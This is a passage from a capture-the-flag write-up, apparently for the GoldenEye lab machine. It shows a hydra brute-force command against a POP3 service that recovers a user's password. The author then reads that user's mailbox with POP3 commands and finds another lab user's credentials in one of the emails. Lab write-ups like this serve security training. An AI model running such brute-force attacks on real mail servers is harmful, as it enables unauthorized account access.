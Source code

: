 That took forever so i'll switch the wordlist to see if we are lucky this time...
`hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://10.10.55.232:55007`
Doing the same for natalya gives us the password `bird`
`[55007][pop3] host: 10.10.55.232   login: natalya   password: bird`

Logging into natalya we can see she has 2 mails into her mailbox with the command stat with total of 1670 characters (?)
```
stat
+OK 2 1679
```
listing these we can see the size of each one individually...
```
list
+OK 2 messages:
1 631
2 1048
.

```
We will use the RETR command to retrieve them one by one
The first email: 
```
retr 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id D5EDA454B1
	for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
``` 
came from root@ubuntu (The administrator we knew about).

The second email:
```
retr 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id 17C96454B1
	for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!
```